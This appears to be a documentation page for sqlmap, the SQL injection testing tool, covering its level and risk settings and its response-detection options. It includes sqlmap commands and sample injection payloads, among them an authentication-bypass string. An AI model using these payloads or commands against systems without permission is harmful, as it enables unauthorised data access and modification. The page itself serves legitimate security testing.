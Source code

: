 #### Level/Risk Settings

**Level (1-5, default 1):**
- **Level 1**: 72 payloads (most common boundaries/vectors)
- **Level 5**: 7,865 payloads (extensive boundary combinations)
- Higher level = more boundaries tested = slower but more thorough

**Risk (1-3, default 1):**
- **Risk 1**: Safe payloads only
- **Risk 2**: Includes medium-risk payloads
- **Risk 3**: Includes OR payloads (dangerous - can modify data)

**Usage Examples:**
```bash
# Conservative (default)
sqlmap -u "URL" --level=1 --risk=1          # 72 payloads

# Moderate thoroughness  
sqlmap -u "URL" --level=3 --risk=2          # ~1,000 payloads

# Maximum thoroughness (slow!)
sqlmap -u "URL" --level=5 --risk=3          # 7,865 payloads

# View payloads being tested
sqlmap -u "URL" -v 3 --level=5              # Verbosity shows [PAYLOAD] details
```

**Risk Level Considerations:**
```bash
# Risk 1: Safe boolean/UNION payloads
[PAYLOAD] 1 AND 7496=4313
[PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz

# Risk 3: Dangerous OR payloads (can modify data!)
[PAYLOAD] 1 OR 1=1                          # ⚠️ Can return all records
[PAYLOAD] 1' OR 'x'='x                      # ⚠️ Authentication bypass
```

#### Advanced Tuning Options

**Status Code Detection:**
```bash
# When TRUE/FALSE responses differ by HTTP status
sqlmap -u "URL" --code=200                  # Fixate TRUE response to HTTP 200
# Example: 200 for valid, 500 for invalid injection
```

**Title-based Detection:**
```bash
# When difference is in HTML <title> tag
sqlmap -u "URL" --titles                    # Compare based on page titles
# Example: "Welcome" vs "Error" in title
```

**String-based Detection:**
```bash
# When specific string appears in TRUE responses
sqlmap -u "URL" --string="success"          # Look for "success" string
sqlmap -u "URL" --string="Welcome"          # Look for "Welcome" string
```
